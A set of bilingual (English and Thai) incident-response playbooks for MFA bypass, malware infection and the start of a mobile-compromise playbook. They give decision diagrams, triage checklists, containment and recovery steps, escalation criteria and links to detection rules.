| Impossible Travel Detection | [cloud_impossible_travel.yml](../../08_Detection_Engineering/sigma_rules/cloud_impossible_travel.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-01 Phishing](Phishing.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-06 Impossible Travel](Impossible_Travel.en.md)
- [PB-17 BEC](BEC.en.md)

## References

- [MITRE ATT&CK T1556.006 — MFA Modification](https://attack.mitre.org/techniques/T1556/006/)
- [MITRE ATT&CK T1539 — Steal Web Session Cookie](https://attack.mitre.org/techniques/T1539/)
- [Microsoft — Token Theft Playbook](https://learn.microsoft.com/en-us/security/operations/token-theft-playbook)


---

## File: 05_Incident_Response/Playbooks/MFA_Bypass.th.md

# Playbook: การหลีกเลี่ยง MFA / การขโมย Token

**ID**: PB-26
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: Identity & Access
**MITRE ATT&CK**: [T1556.006](https://attack.mitre.org/techniques/T1556/006/) (MFA Modification), [T1539](https://attack.mitre.org/techniques/T1539/) (Steal Web Session Cookie)
**ทริกเกอร์**: Identity Protection alert, Conditional Access anomaly, ผู้ใช้รายงาน MFA prompt ไม่ได้ขอ


## หลังเหตุการณ์ (Post-Incident)

- [ ] อัพเกรดเป็น Phishing-resistant MFA (FIDO2/passkeys)
- [ ] ปิด SMS/Voice MFA ถ้าเป็นไปได้
- [ ] ใช้ number matching สำหรับ push notifications
- [ ] ทบทวน MFA registration policies
- [ ] ใช้ token protection (token binding)
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง AiTM (Adversary-in-the-Middle) Attack

```mermaid
sequenceDiagram
    participant Victim as เหยื่อ
    participant Proxy as Phishing Proxy
    participant IdP as Azure AD
    Victim->>Proxy: 1. คลิกลิงก์ฟิชชิง
    Proxy->>IdP: 2. ส่งต่อ credentials
    IdP-->>Proxy: 3. MFA challenge
    Proxy-->>Victim: 4. แสดง MFA prompt
    Victim->>Proxy: 5. ผ่าน MFA
    Proxy->>IdP: 6. ส่ง MFA response
    IdP-->>Proxy: 7. Session cookie
    Note over Proxy: 🎯 ได้ session cookie!
    Proxy->>Proxy: 8. ใช้ cookie เข้าถึงบัญชี
```

### ผังระดับความปลอดภัย MFA

```mermaid
graph LR
    SMS["📱 SMS OTP"] --> TOTP["📲 TOTP App"]
    TOTP --> Push["🔔 Push Notification"]
    Push --> NumberMatch["🔢 Number Matching"]
    NumberMatch --> FIDO["🔑 FIDO2/Passkey"]
    style SMS fill:#e74c3c,color:#fff
    style TOTP fill:#f39c12,color:#fff
    style Push fill:#f1c40f,color:#000
    style NumberMatch fill:#2ecc71,color:#fff
    style FIDO fill:#27ae60,color:#fff
```
> ⚠️ **วิกฤต**: MFA bypass หมายความว่าผู้โจมตีเอาชนะการควบคุมที่แข็งแกร่งที่สุดแล้ว — ดำเนินการทันที

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 MFA Bypass / Token ผิดปกติ"] --> Method{"⚙️ วิธีโจมตี?"}
    Method -->|AiTM Proxy| AiTM["🎣 Adversary-in-the-Middle"]
    Method -->|MFA Fatigue| Fatigue["📲 Push Spam"]
    Method -->|Token Theft| Token["🍪 ขโมย Session Cookie"]
    Method -->|SIM Swap| SIM["📞 ขโมยหมายเลข SMS"]
    AiTM --> Phish["🔍 ค้นหาหน้า Phishing"]
    Fatigue --> Contact["📞 ติดต่อผู้ใช้"]
    Token --> Replay["🔍 ระบุ Token Replay"]
    SIM --> Carrier["📞 ติดต่อผู้ให้บริการ"]
    Phish --> Revoke["🔒 เพิกถอน Sessions ทั้งหมด"]
    Contact -->|ผู้ใช้กด Accept| Revoke
    Contact -->|ไม่ได้กด| FP["✅ MFA ป้องกันได้ — ติดตาม"]
    Replay --> Revoke
    Carrier --> Revoke
```

---

## 1. การวิเคราะห์

### 1.1 วิธีการหลีกเลี่ยง MFA

| วิธี | วิธีทำงาน | การตรวจจับ |
|:---|:---|:---|
| **AiTM Proxy** (EvilProxy, Evilginx) | หน้า phishing proxy ล็อกอินจริง จับ session token | URL ไม่ตรง, TI feeds |
| **MFA Fatigue** | สแปมการแจ้งเตือน push จนผู้ใช้กด accept | หลาย deny แล้ว accept, SIEM |
| **Session Token Theft** | มัลแวร์ขโมย browser cookies | IP ต่าง session เดียวกัน |
| **SIM Swap** | ผู้โจมตียึดหมายเลขโทรศัพท์ | สูญเสียสัญญาณ, ผู้ให้บริการ |
| **Social Engineering** | หลอก helpdesk รีเซ็ต MFA | รีเซ็ตไม่มี ticket |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ระบุวิธี bypass ที่ใช้ | Sign-in logs, phishing analysis | ☐ |
| ตรวจ sign-in logs สำหรับความผิดปกติ | Azure AD / Okta | ☐ |
| ตรวจ session token replay | Session ID เดียวกันจาก IP ต่าง | ☐ |
| ประวัติ MFA push | IdP MFA logs — deny แล้ว accept? | ☐ |
| MFA methods ที่ลงทะเบียนใหม่ | IdP audit | ☐ |
| OAuth app consents ตั้งแต่ถูกบุกรุก | Enterprise Applications | ☐ |
| กฎ inbox forwarding ที่สร้างขึ้น | Exchange audit | ☐ |
| ข้อมูลที่เข้าถึงระหว่าง session ที่ถูกบุกรุก | Cloud audit logs | ☐ |

### 1.3 กิจกรรมหลังถูกบุกรุก

| กิจกรรม | ตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| เข้าถึง/ส่งต่ออีเมล | Inbox rules, message trace | ☐ |
| ดาวน์โหลดไฟล์ | SharePoint / OneDrive audit | ☐ |
| เปลี่ยน MFA method | Authentication methods | ☐ |
| เปลี่ยนรหัสผ่าน | Directory audit | ☐ |
| เปลี่ยนสิทธิ์ | Role assignments | ☐ |
| ส่ง phishing ภายใน | Outbox / sent items | ☐ |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที (ภายใน 5 นาที)

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **เพิกถอน sessions ทั้งหมด** และ refresh tokens | IdP | ☐ |
| 2 | **บล็อก session cookie/token** ที่ถูกบุกรุก | IdP / WAF | ☐ |
| 3 | **ปิดบัญชี** ชั่วคราว | IdP | ☐ |
| 4 | **บล็อก AiTM infrastructure** (โดเมน/IP phishing) | Firewall / DNS | ☐ |
| 5 | **ลบอีเมล phishing** จากทุก mailbox | Exchange / M365 | ☐ |

### 2.2 การควบคุมเพิ่มเติม

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ค้นหาอีเมล phishing เดียวกันทุกผู้ใช้ | ☐ |
| 2 | ตรวจว่าผู้ใช้อื่นเข้า AiTM proxy หรือไม่ | ☐ |
| 3 | เพิกถอน OAuth app consents ที่อันตราย | ☐ |
| 4 | ลบ inbox rules / delegates ที่ผู้โจมตีสร้าง | ☐ |
| 5 | ลบ MFA methods ที่ผู้โจมตีลงทะเบียน | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **รีเซ็ตรหัสผ่าน** ผ่านช่องทางที่ยืนยันแล้ว | ☐ |
| 2 | **ล้าง MFA ทั้งหมด** และลงทะเบียนใหม่ด้วย **FIDO2/passkey** | ☐ |
| 3 | เพิกถอน OAuth app consents ทั้งหมดและอนุมัติใหม่เฉพาะที่จำเป็น | ☐ |
| 4 | ลบ forwarding rules, delegates, mail flow rules | ☐ |
| 5 | สแกนอุปกรณ์ผู้ใช้หา infostealer / มัลแวร์ | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เปิดบัญชีด้วย MFA ที่ต้านทาน phishing (FIDO2 / passkeys) | ☐ |
| 2 | บังคับ Conditional Access: อุปกรณ์ที่ compliant เท่านั้น | ☐ |
| 3 | ลด token lifetime และเปิด CAE (Continuous Access Evaluation) | ☐ |
| 4 | บล็อก legacy authentication protocols | ☐ |
| 5 | Deploy number matching สำหรับ push MFA | ☐ |
| 6 | ติดตามบัญชี 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| บัญชีผู้บริหาร / admin ถูก bypass | CISO ทันที |
| หลายบัญชีถูกบุกรุกผ่าน AiTM | Major Incident |
| ข้อมูลถูกนำออกระหว่าง session | Legal + DPO (PDPA 72 ชม.) |
| BEC ตาม follow-up จากบัญชีที่ถูกบุกรุก | [PB-17 BEC](BEC.th.md) |
| Social engineering helpdesk ยืนยัน | CISO + HR |

---

### ผัง MFA Rollout Strategy

```mermaid
graph TD
    Plan["📋 MFA Rollout"] --> Admin["👑 Phase 1: Admin"]
    Admin --> VIP["🏢 Phase 2: VIP/Finance"]
    VIP --> All["👥 Phase 3: All users"]
    All --> FIDO["🔑 Phase 4: FIDO2"]
    Admin --> Enforce["🔒 Enforce"]
    VIP --> Enforce
    All --> Enforce
    style Admin fill:#e74c3c,color:#fff
    style FIDO fill:#27ae60,color:#fff
```

### ผัง Phishing-Resistant MFA Comparison

```mermaid
graph LR
    MFA{"📱 MFA Type"} --> SMS["📲 SMS — ❌ SIM swap"]
    MFA --> TOTP["🔢 TOTP — ⚠️ Phishable"]
    MFA --> Push["🔔 Push — ⚠️ Fatigue"]
    MFA --> Number["🔢 Number Match — ✅ Better"]
    MFA --> FIDO["🔑 FIDO2 — ✅ Best"]
    style SMS fill:#e74c3c,color:#fff
    style TOTP fill:#f39c12,color:#fff
    style Push fill:#f39c12,color:#fff
    style Number fill:#2ecc71,color:#fff
    style FIDO fill:#27ae60,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| MFA Bypass / Token Theft Detection | [cloud_mfa_bypass.yml](../../08_Detection_Engineering/sigma_rules/cloud_mfa_bypass.yml) |
| Impossible Travel Detection | [cloud_impossible_travel.yml](../../08_Detection_Engineering/sigma_rules/cloud_impossible_travel.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-01 ฟิชชิง](Phishing.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)
- [PB-17 BEC](BEC.th.md)

## MFA Bypass Techniques & Detection

| Technique | Detection | Prevention |
|:---|:---|:---|
| SIM swap | Phone number change alert | Hardware tokens |
| Prompt bombing | Multiple push denials | Number matching |
| Token theft | Session anomaly | Binding to device |
| Adversary-in-the-middle | TLS cert anomaly | FIDO2/WebAuthn |

### MFA Hardening Recommendations

| Current MFA | Upgrade To | Priority |
|:---|:---|:---|
| SMS OTP | Authenticator app | High |
| Push notification | Number matching | High |
| Software token | FIDO2 hardware key | Critical |
| No MFA | Any MFA | Critical |

## อ้างอิง

- [MITRE ATT&CK T1556.006 — MFA Modification](https://attack.mitre.org/techniques/T1556/006/)
- [Microsoft — Token Theft Playbook](https://learn.microsoft.com/en-us/security/operations/token-theft-playbook)


---

## File: 05_Incident_Response/Playbooks/Malware_Infection.en.md

# Playbook: Malware Infection

**ID**: PB-03
**Severity**: Medium/High | **Category**: Endpoint Security
**MITRE ATT&CK**: [T1204](https://attack.mitre.org/techniques/T1204/) (User Execution), [T1059](https://attack.mitre.org/techniques/T1059/) (Command and Scripting Interpreter)
**Trigger**: EDR alert, AV detection, SIEM correlation, User report

### Malware Analysis Pipeline

```mermaid
graph LR
    Hash["#️⃣ Hash"] --> VT["🔍 VirusTotal"]
    VT --> Known{"✅ Known?"}
    Known -->|Yes| Report["📋 Use TI report"]
    Known -->|No| Sandbox["🧪 Sandbox"]
    Sandbox --> Static["📝 Static Analysis"]
    Static --> Dynamic["▶️ Dynamic Analysis"]
    Dynamic --> IOC["🎯 Extract IOCs"]
    style Hash fill:#3498db,color:#fff
    style Sandbox fill:#e74c3c,color:#fff
    style IOC fill:#27ae60,color:#fff
```

### Containment Workflow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC
    participant FW as Firewall
    participant SIEM
    EDR->>SOC: 🚨 Malware detected
    SOC->>EDR: Isolate host
    SOC->>EDR: Block hash (org-wide)
    SOC->>FW: Block C2 IP/domain
    SOC->>SIEM: Sweep IOCs org-wide
    SIEM-->>SOC: Results (additional hosts?)
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 AV/EDR Alert"] --> Verify{"📁 File Still Exists?"}
    Verify -->|No| AutoClean["AV Auto-Cleaned"]
    Verify -->|Yes| Hash["🔍 Check Hash"]
    AutoClean --> Review["Review: Was it Fully Cleaned?"]
    Review -->|Yes + No Persistence| Close["Close as Resolved"]
    Review -->|Uncertain| Hash
    Hash -->|Known Malware| Type{"What Type?"}
    Hash -->|Unknown| Sandbox["🧪 Sandbox Analysis"]
    Sandbox -->|Malicious| Type
    Sandbox -->|Benign| FP["False Positive"]
    Type -->|Infostealer| FullResponse["🚨 Full Response + Credential Reset"]
    Type -->|RAT/Backdoor| FullResponse
    Type -->|Adware/PUP| Limited["⚠️ Remove + Monitor"]
    Type -->|Ransomware| Ransomware["→ PB-02 Ransomware"]
    FullResponse --> Isolate["🔌 Isolate & Eradicate"]
```

---

## 1. Analysis (Triage)

### 1.1 Initial Checks

| # | Check | How | Done |
|:---:|:---|:---|:---:|
| 1 | Verify file path | EDR console — is it in `%TEMP%`, `Downloads`, `System32`? | ☐ |
| 2 | Check file hash | VirusTotal, ThreatFox — known malware? | ☐ |
| 3 | Identify user | Who executed/downloaded the file? | ☐ |
| 4 | Determine delivery method | Email attachment, web download, USB? | ☐ |
| 5 | Check execution | Did the file execute or just land on disk? | ☐ |

### 1.2 Malware Classification

| Type | Risk | Additional Actions |
|:---|:---|:---|
| **Ransomware** | Critical | Escalate to [PB-02](Ransomware.en.md) immediately |
| **RAT / Backdoor** | High | Full IR — check C2, lateral movement |
| **Infostealer** | High | Reset all user credentials, check exfil |
| **Trojan Dropper** | High | Find all dropped payloads |
| **Cryptominer** | Medium | Remove, check for persistence |
| **Adware / PUP** | Low | Remove, tune AV rule |

### 1.3 Scope Assessment

- [ ] Any other hosts with the same file hash?
- [ ] Any network connections from the malware (C2)?
- [ ] Signs of lateral movement from this host?
- [ ] Any data exfiltration indicators?

---

## 2. Containment

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | Network isolate the host | EDR | ☐ |
| 2 | Kill malicious process(es) | EDR / Task Manager | ☐ |
| 3 | Block file hash across all endpoints | EDR global blacklist | ☐ |
| 4 | Block C2 IP/domain at firewall/proxy | Firewall, Proxy | ☐ |
| 5 | Disable user account (if credential theft suspected) | AD / IdP | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Delete malicious file(s) from disk | ☐ |
| 2 | Remove persistence mechanisms: | |
|   | - Registry Run keys (`HKCU\...\Run`, `HKLM\...\Run`) | ☐ |
|   | - Scheduled Tasks | ☐ |
|   | - Startup folder shortcuts | ☐ |
|   | - Services | ☐ |
|   | - WMI event subscriptions | ☐ |
| 3 | Run full system AV/EDR scan | ☐ |
| 4 | Check for additional dropped files | ☐ |
| 5 | Verify no rootkits (if RAT/backdoor) | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Verify endpoint is clean (no alerts for 24h) | ☐ |
| 2 | Un-isolate host from network | ☐ |
| 3 | Reset user credentials (if Infostealer) | ☐ |
| 4 | Monitor endpoint for 48 hours post-recovery | ☐ |
| 5 | Confirm user awareness (how was it delivered?) | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| File Name | | EDR / AV |
| File Path | | EDR |
| File Hash (SHA256) | | EDR / Sandbox |
| C2 IP/Domain | | Network logs |
| Process Name | | EDR |
| Parent Process | | EDR |
| Delivery Method | | Email / Proxy logs |
| Dropped Files | | Sandbox |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Ransomware variant | [PB-02 Ransomware](Ransomware.en.md) |
| RAT/backdoor with active C2 | Tier 2 + Threat Hunt |
| Multiple hosts infected | SOC Lead — Major Incident |
| Infostealer confirmed | Tier 2 + Identity team |
| Data exfiltration evidence | [PB-08 Data Exfiltration](Data_Exfiltration.en.md) |

---

## 7. Post-Incident

- [ ] Verify all malware artifacts have been removed from affected hosts
- [ ] Update antivirus / EDR signatures with new indicators
- [ ] Submit samples to threat intelligence platforms (VirusTotal, MWDB)
- [ ] Create Sigma detection rule for observed malware behavior
- [ ] Review endpoint hardening (disable macros, restrict PowerShell)
- [ ] Conduct user awareness training if initial access was via phishing
- [ ] Review application control policies for bypassed executables
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Malware Analysis Pipeline

```mermaid
graph LR
    Sample["🦠 Sample"] --> Static["📋 Static Analysis"]
    Static --> Sandbox["🏖️ Sandbox"]
    Sandbox --> IOC["🔍 Extract IOCs"]
    IOC --> TI["📊 Threat Intel"]
    TI --> Block["🔒 Block"]
    Block --> Hunt["🎯 Hunt across org"]
    style Sample fill:#e74c3c,color:#fff
    style Block fill:#27ae60,color:#fff
```

### EDR Response Flow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC
    participant Endpoint
    participant SIEM
    EDR->>SOC: 🚨 Malware detected
    SOC->>EDR: Isolate host
    EDR->>Endpoint: 🔒 Network isolated
    SOC->>EDR: Collect forensic data
    EDR-->>SOC: 📋 Process tree + artifacts
    SOC->>SIEM: Add IOCs to blocklist
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Office Spawning PowerShell | [proc_office_spawn_powershell.yml](../../08_Detection_Engineering/sigma_rules/proc_office_spawn_powershell.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |
| Ransomware Bulk Renaming | [file_bulk_renaming_ransomware.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_renaming_ransomware.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-02 Ransomware](Ransomware.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [PB-11 Suspicious Script](Suspicious_Script.en.md)

## References

- [MITRE ATT&CK T1204 — User Execution](https://attack.mitre.org/techniques/T1204/)
- [NIST SP 800-83r1 — Malware Incident Prevention and Handling](https://csrc.nist.gov/publications/detail/sp/800-83/rev-1/final)


---

## File: 05_Incident_Response/Playbooks/Malware_Infection.th.md

# Playbook: มัลแวร์ (Malware Infection)

**ID**: PB-03
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: Endpoint Security
**MITRE ATT&CK**: [T1204](https://attack.mitre.org/techniques/T1204/) (User Execution), [T1059](https://attack.mitre.org/techniques/T1059/) (Command & Scripting Interpreter)
**ทริกเกอร์**: EDR alert, AV detection, sandbox result, ผู้ใช้รายงานอาการผิดปกติ

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Malware Alert"] --> Type{"🦠 ประเภท?"}
    Type -->|Trojan/RAT| RAT["🕵️ Remote Access"]
    Type -->|Worm| Worm["🐛 Self-propagating"]
    Type -->|Ransomware| Ransom["🔒 Encryption"]
    Type -->|Infostealer| Stealer["🔑 Credential Theft"]
    Type -->|Dropper/Loader| Drop["📥 Second-stage"]
    RAT --> C2{"📡 C2 Callback?"}
    Worm --> Lateral{"🖥️ กี่เครื่อง?"}
    Ransom --> Escalate["🔴 ยกระดับ PB-02"]
    Stealer --> Creds["🔐 หมุนเวียน Creds ทันที"]
    C2 -->|ใช่| Isolate["🔒 Isolate + Block C2"]
    C2 -->|ไม่| Contain["🟠 Contain + Clean"]
    Lateral -->|>3 เครื่อง| Major["🔴 Major Incident"]
```

---

## หลังเหตุการณ์ (Post-Incident)

- [ ] ตรวจสอบว่า malware artifacts ถูกลบจากทุก host แล้ว
- [ ] อัพเดท AV/EDR signatures ด้วย indicators ใหม่
- [ ] ส่ง samples ไปยัง threat intel platforms
- [ ] สร้าง Sigma rule สำหรับ malware behavior ที่พบ
- [ ] ทบทวน endpoint hardening (macros, PowerShell)
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)


## 1. การวิเคราะห์

### 1.1 ประเภทมัลแวร์

| ประเภท | ลักษณะ | ความรุนแรง |
|:---|:---|:---|
| **Trojan/RAT** | Remote access, keylogger | 🔴 สูง |
| **Worm** | Self-replicating, network spread | 🔴 สูง |
| **Ransomware** | เข้ารหัสไฟล์, ransom note | 🔴 วิกฤต |
| **Infostealer** | ขโมย browser passwords, cookies | 🔴 สูง |
| **Dropper/Loader** | ดาวน์โหลด payload เพิ่มเติม | 🟠 สูง |
| **Rootkit** | ซ่อน process, kernel-level | 🔴 วิกฤต |
| **Cryptominer** | ใช้ CPU/GPU mining | 🟠 ปานกลาง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ประเภทมัลแวร์ | EDR classification | ☐ |
| File hash (SHA256) | EDR | ☐ |
| VT / TI lookup | VirusTotal, OTX | ☐ |
| Entry vector (email/USB/download/exploit) | EDR timeline | ☐ |
| Parent process chain | EDR process tree | ☐ |
| มี C2 callback? | EDR network events | ☐ |
| มี lateral movement? | SIEM correlation | ☐ |
| มี persistence? (registry, scheduled task, service) | EDR / Autoruns | ☐ |
| มีข้อมูลถูกนำออก? | DLP / Netflow | ☐ |
| มี host อื่นติดเชื้อ? | SIEM IoC search | ☐ |

---

### ผังกระบวนการวิเคราะห์มัลแวร์

```mermaid
graph LR
    Hash["#️⃣ Hash"] --> VT["🔍 VirusTotal"]
    VT --> Known{"✅ รู้จัก?"}
    Known -->|ใช่| Report["📋 ใช้ TI report"]
    Known -->|ไม่| Sandbox["🧪 Sandbox"]
    Sandbox --> Static["📝 Static Analysis"]
    Static --> Dynamic["▶️ Dynamic Analysis"]
    Dynamic --> IOC["🎯 สกัด IoC"]
    style Hash fill:#3498db,color:#fff
    style Sandbox fill:#e74c3c,color:#fff
    style IOC fill:#27ae60,color:#fff
```

### ผังขั้นตอนการควบคุม

```mermaid
sequenceDiagram
    participant EDR
    participant SOC
    participant FW as Firewall
    participant SIEM
    EDR->>SOC: 🚨 Malware detected
    SOC->>EDR: Isolate host
    SOC->>EDR: Block hash (org-wide)
    SOC->>FW: Block C2 IP/domain
    SOC->>SIEM: Sweep IOCs ทั้งองค์กร
    SIEM-->>SOC: ผลลัพธ์ (additional hosts?)
```

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Isolate** host ทันที (network quarantine) | EDR | ☐ |
| 2 | **Kill** malicious process | EDR | ☐ |
| 3 | **Block** file hash ทั้งองค์กร | EDR policy | ☐ |
| 4 | **Block** C2 domain/IP ที่ proxy, firewall, DNS | All | ☐ |
| 5 | **ค้นหา IoC** (hash, IP, domain) ใน host อื่น | SIEM | ☐ |
| 6 | **บล็อก entry vector** (email attachment hash, URL) | Mail gateway | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ malware binary + dropped files | ☐ |
| 2 | ลบ persistence ทั้งหมด (registry, task, service, cron) | ☐ |
| 3 | หมุนเวียน credentials ที่อาจถูกขโมย | ☐ |
| 4 | หาก worm → ตรวจทุก host ใน segment | ☐ |
| 5 | หาก rootkit → **rebuild จาก clean image** (ไม่ clean ได้) | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | Rebuild/restore host จาก known-good image | ☐ |
| 2 | อัปเดต EDR signatures + detection rules | ☐ |
| 3 | ปรับ email gateway rules (block attachment types) | ☐ |
| 4 | อัปเดต firewall/proxy blocklists | ☐ |
| 5 | อบรมผู้ใช้ (หาก entry vector = phishing/download) | ☐ |
| 6 | ติดตาม 14 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| **Ransomware** ยืนยัน | [PB-02 Ransomware](Ransomware.th.md) ทันที |
| **C2 confirmed** | [PB-13 C2](C2_Communication.th.md) |
| **Worm** — หลาย host ติดเชื้อ | Major Incident |
| **Data exfiltration** | [PB-08 Data Exfil](Data_Exfiltration.th.md) + Legal |
| **Infostealer** — credentials ถูกขโมย | [PB-05 Account Compromise](Account_Compromise.th.md) |
| **Server/DC** ติดเชื้อ | CISO ทันที |

---

### ผัง Malware Analysis Pipeline

```mermaid
graph LR
    Sample["🦠 Sample"] --> Static["📋 Static Analysis"]
    Static --> Sandbox["🏖️ Sandbox"]
    Sandbox --> IOC["🔍 Extract IOCs"]
    IOC --> TI["📊 Threat Intel"]
    TI --> Block["🔒 Block"]
    Block --> Hunt["🎯 Hunt across org"]
    style Sample fill:#e74c3c,color:#fff
    style Block fill:#27ae60,color:#fff
```

### ผัง EDR Response Flow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC
    participant Endpoint
    participant SIEM
    EDR->>SOC: 🚨 Malware detected
    SOC->>EDR: Isolate host
    EDR->>Endpoint: 🔒 Network isolated
    SOC->>EDR: Collect forensic data
    EDR-->>SOC: 📋 Process tree + artifacts
    SOC->>SIEM: เพิ่ม IOCs ใน blocklist
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Office Spawning PowerShell | [proc_office_spawn_powershell.yml](../../08_Detection_Engineering/sigma_rules/proc_office_spawn_powershell.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |
| Ransomware Bulk Renaming | [file_bulk_renaming_ransomware.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_renaming_ransomware.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-02 Ransomware](Ransomware.th.md)
- [PB-13 C2 Communication](C2_Communication.th.md)

## Malware Family Classification

| Category | Behavior | Priority | Example |
|:---|:---|:---|:---|
| Ransomware | File encryption | Critical | LockBit, BlackCat |
| RAT | Remote control | Critical | Cobalt Strike |
| Worm | Self-propagation | High | Emotet |
| Trojan | Disguised payload | High | Trickbot |
| Cryptominer | Resource hijacking | Medium | XMRig |

### Containment Decision Matrix

| Factor | Isolate | Monitor | Full Wipe |
|:---|:---|:---|:---|
| Single endpoint | ✅ | - | If persistent |
| Server | ✅ | Short-term | After backup |
| Domain controller | ✅ | ❌ | After DSRM |
| Multiple hosts | Network segment | ❌ | Phased |

### Malware Sample Handling

| Step | Action |
|:---|:---|
| 1 | Calculate SHA256 hash |
| 2 | Check VirusTotal reputation |
| 3 | Submit to sandbox (if unknown) |

## อ้างอิง

- [MITRE ATT&CK T1204 — User Execution](https://attack.mitre.org/techniques/T1204/)


---

## File: 05_Incident_Response/Playbooks/Mobile_Compromise.en.md

# Playbook: Mobile Device Compromise

**ID**: PB-28
**Severity**: High | **Category**: Endpoint Security
**MITRE ATT&CK**: [T1456](https://attack.mitre.org/techniques/T1456/) (Drive-By Compromise — Mobile), [T1474](https://attack.mitre.org/techniques/T1474/) (Supply Chain Compromise — Mobile)
**Trigger**: MTD alert (malicious app), MDM compliance violation, User reports SIM swap, Phishing on mobile

### Mobile Threat Detection

```mermaid
graph TD
    MTD["🔍 MTD"] --> Type{"📱 Type?"}
    Type -->|Malicious App| App["🦠 Remove App"]
    Type -->|Jailbreak/Root| JB["⚠️ Block Access"]
    Type -->|Network Attack| Net["🌐 Force VPN"]
    Type -->|SIM Swap| SIM["📞 Contact Carrier"]
    App --> MDM["📲 MDM Action"]
    JB --> MDM
    Net --> MDM
```

### BYOD Containment

```mermaid
sequenceDiagram
    participant User
    participant MDM
    participant SOC
    participant IT
    MDM->>SOC: 🚨 Compliance violation
    SOC->>MDM: Block corporate access
    SOC->>User: Notify + guidance
    User->>IT: Bring device for check
    IT->>MDM: Remediate / Re-enroll
    MDM-->>SOC: ✅ Compliant
``` 

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Mobile Device Anomaly"] --> Type{"📱 Compromise Type?"}
    Type -->|Spyware / Stalkerware| Spy["🕵️ Rogue Profile / App"]
    Type -->|Jailbreak / Root| JB["🔓 Device Integrity Broken"]
    Type -->|Malicious App| App["📦 Untrusted App Detected"]
    Type -->|SIM Swap| SIM["📞 Number Hijacked"]
    Type -->|Phishing (Smishing)| Smish["📩 SMS/Link Clicked"]
    Spy --> Scope["📊 Assess Data Exposure"]
    JB --> Scope
    App --> Scope
    SIM --> Urgent["🔴 Urgent — MFA/Auth at Risk"]
    Smish --> Scope
    Scope --> Corp{"💼 Corporate Data Access?"}
    Corp -->|Yes, Email/VPN/Cloud| Contain["🔒 Full Containment"]
    Corp -->|No, Personal Only| Monitor["👁️ Monitor + Educate"]
    Urgent --> Contain
```

---

## 1. Analysis

### 1.1 Compromise Type Identification

| Type | Indicators | Detection |
|:---|:---|:---|
| **Spyware/Stalkerware** | Rogue MDM profiles, unknown device admin apps, battery drain | MDM, MTD |
| **Jailbreak/Root** | Cydia, Magisk, SuperSU, integrity check failures | MDM jailbreak detection |
